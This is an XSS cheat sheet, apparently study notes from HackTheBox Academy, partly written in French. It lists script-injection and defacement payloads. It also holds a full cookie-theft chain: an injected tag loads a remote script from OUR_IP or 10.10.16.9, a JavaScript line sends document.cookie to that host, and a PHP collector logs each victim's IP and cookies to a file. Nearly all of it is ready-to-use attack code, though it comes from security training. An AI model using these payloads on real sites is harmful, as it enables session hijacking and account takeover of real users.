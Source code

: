 #XSS #web 

## Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `"><script>alert(window.origin)</script>`                                                     |    Basic XSS Payload                               |
| `'><script>alert(window.origin)</script>`                                                     |        Basic XSS Payload                           |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80 `                                                                     | Start `PHP` server                |


### Utilisation d'un payload XSS avec un script Php pour récuperer les cookies d'une sessions
Utilisation d'un **payload XSS** appelant un fichier **js** avec lui même une requête sur les cookies de la sessions et appel d'un fichier **php** pour récuperer au clair les informations dans un txt.

#### Payload avec connexion à notre propre serveur php
```bash
"><script src=http://10.10.16.9/script.js></script>
```

#### deuxième payload ( requête pour récupération des cookies )
```javascript

?>new Image().src='http://10.10.16.9/index.php?c='+document.cookie

```

#### PHP script
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```

#### Utilisation des entrées directe :
- Code Javascript<script></script>
- Code de style CSS<style></style>
- Champs de balise/attribut<div name='INPUT'></div>
- Commentaires HTML<!-- -->